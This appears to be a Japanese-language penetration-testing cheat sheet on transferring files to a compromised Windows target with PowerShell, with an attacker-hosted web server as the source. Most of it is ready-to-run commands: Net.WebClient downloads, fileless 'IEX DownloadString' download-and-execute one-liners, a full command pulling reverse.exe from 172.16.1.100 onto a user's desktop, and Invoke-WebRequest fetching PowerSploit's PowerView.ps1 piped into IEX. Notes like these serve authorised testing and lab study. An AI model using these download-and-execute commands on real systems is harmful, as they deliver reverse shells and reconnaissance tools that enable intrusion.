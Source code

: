   攻撃者サーバーを一時的にwebサーバーとする

##### ターゲット側
- クラス名`Net.WebClient`とメソッド`DownloadFile`を、ダウンロードするターゲットファイルのURLに対応するパラメータと出力ファイル名で指定する
- 
```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

ファイルレスメソッド
- `fileless` : いくつかのオペレーティングシステム機能を使用してペイロードをダウンロードし、直接実行する
```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>.ps1')
```

`IEX`パイプライン入力も受け付ける
```powershell
(New-Object Net.WebClient).DownloadString('<Target File URL>.ps1') | IEX
```

**Powershellで、メッセージ付きのダウンロードコマンド**
```sh
powershell -Command "$url = \"http://172.16.1.100:1235/reverse.exe\"; $dest = \"C:\\Users\\blake\\Desktop\\reverse.exe\"; try { (New-Object Net.WebClient).DownloadFile($url, $dest); if (Test-Path $dest) { Write-Host \" Download successful: $dest\" } else { Write-Host \" File not found after download\" } } catch { Write-Host \" Error: $($_.Exception.Message)\" }"
```

Powershellで動かす時には↓
```sh
$url = 'http://172.16.1.100:1235/agent.exe'
$dest = 'C:\Users\katwamba\Desktop\agent.exe'
(New-Object System.Net.WebClient).DownloadFile($url, $dest)
Test-Path $dest
```


#### WebRequest
##### ターゲット側

- PowerShell 3.0以降、[Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2)コマンドレットも使用できますが、ファイルのダウンロードが著しく遅くなります。`Invoke-WebRequest`のフルネームの代わりに、別名`iwr`、`curl`、`wget`を使用できる
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

#### PowerShellのよくあるエラー
- Internet Explorer の初回起動設定が完了していないため、ダウンロードが妨げられる場合がある
	- パラメータ`-UseBasicParsing`を使用してバイパスできる
例
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
